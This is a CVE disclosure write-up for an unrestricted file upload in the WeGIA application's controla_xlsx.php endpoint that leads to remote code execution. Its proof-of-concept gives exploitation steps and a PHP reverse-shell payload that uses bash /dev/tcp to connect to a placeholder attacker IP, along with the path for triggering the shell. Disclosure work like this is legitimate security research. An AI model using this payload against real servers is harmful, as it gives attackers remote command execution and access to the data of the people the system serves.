


## CVE-2025-22133: Arbitrary File Upload with Remote Code Execution (RCE)

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-22133*

## Summary

<p style="text-align: justify;">A critical vulnerability was identified in the following endpoint:</p>

`/WeGIA/html/socio/sistema/controller/controla_xlsx.php`

<p style="text-align: justify;">The endpoint accepts file uploads without proper validation, allowing the upload of malicious files, such as <strong>.phar</strong>, which can then be executed by the server.</p>

## Details

<p style="text-align: justify;">The vulnerability resides in the endpoint <strong>/WeGIA/html/socio/sistema/controller/controla_xlsx.php</strong>, which fails to validate uploaded files properly. This allows an attacker to upload malicious files, such as <strong>.phar</strong>, capable of being executed on the server. By crafting a malicious file containing arbitrary code, attackers can trigger Remote Code Execution (RCE) on the vulnerable server.</p>

`/WeGIA/html/socio/sistema/controller/controla_xlsx.php`

<p style="text-align: justify;">The endpoint accepts file uploads without proper validation, allowing the upload of malicious files, such as <strong>.phar</strong>, which can then be executed by the server. This enables remote code execution on the vulnerable server.</p>

## POC

<p style="text-align: justify;">After capturing the file upload request from <strong>/WeGIA/html/socio/sistema/controller/controla_xlsx.php</strong>, simply change the uploaded file type to <strong>.phar</strong>, insert the payload into the content and send the request.</p>

### Payload:

````php
  <?php
  $ip = 'IP';
  $port = 4444;
  system("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
  ?>
````


<p style="text-align: justify;">Once uploaded, run the shell on the file path in:</p>

`/WeGIA/html/socio/sistema/tabelas/shell.phar`



## Impact

<p style="text-align: justify;"> This vulnerability allows an attacker to:
  <ul>
    <li>Gain access to the server through a reverse shell.</li>
    <li>Execute arbitrary commands with the privileges of the web server user.</li>
    <li>Exfiltrate sensitive data, such as configuration files, logs, or confidential user information.</li>
    <li>Compromise the integrity and availability of the system.</li>
    <li>Escalate privileges if additional vulnerabilities are present.</li>
  </ul>
</p>

## Reference

[https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-mjgr-2jxv-v8qf](https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-mjgr-2jxv-v8qf)

## Finder

[](https://www.linkedin.com/in/nmmorette) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette) 

## Contributors

[](https://www.linkedin.com/in/angelo-morette-019/) [Angelo Morette](https://www.linkedin.com/in/angelo-morette-019/) 

[](https://www.linkedin.com/in/diegocbcastro/) [Diego Castro](https://www.linkedin.com/in/diegocbcastro/) 

[](https://www.linkedin.com/in/elisangelasilvademendonca/) [Elisângela Mendonça](https://www.linkedin.com/in/elisangelasilvademendonca/) 

[](https://www.linkedin.com/in/rafael-corvino/) [Rafael Corvino](https://www.linkedin.com/in/rafael-corvino/) 

> *By: [CVE Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*